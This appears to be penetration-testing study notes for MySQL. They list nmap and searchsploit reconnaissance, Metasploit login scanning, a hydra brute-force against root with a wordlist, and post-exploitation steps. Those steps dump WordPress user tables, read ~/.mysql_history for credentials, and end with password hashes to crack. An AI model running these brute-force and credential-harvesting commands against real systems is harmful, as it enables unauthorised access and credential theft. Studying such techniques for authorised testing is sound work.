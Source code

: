 # MySQL

```
nmap -Pn -sV -sC -p3306 <ip>
```
```
searchsploit MySQL <version>
```
```
use auxiliary/scanner/mysql/mysql_version
```

```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
- Focus on `root` - most important account.

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```
- 

```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

## Post-Exploitation
```
mysql -u root -p -h <ip>

# Press Enter if NULL password.
```

```
show databases;
use <database>;
show tables;
select * from <table>;

use wordpress;
select * from wp_users;

# Web app user info in the database.
```

```
cat ~/.mysql_history

# History file may contain credentials.
```

##
```
$P$B2PFjjNJHOQwDzqrQxfX4GYzasKQoN0
$P$BMO//62Hj1IFeIr0XuJUqMmtBllnzN/

Salt: G*=2"S^\529h#r7Y=aPP (from nmap scan)

# How to crack?
```
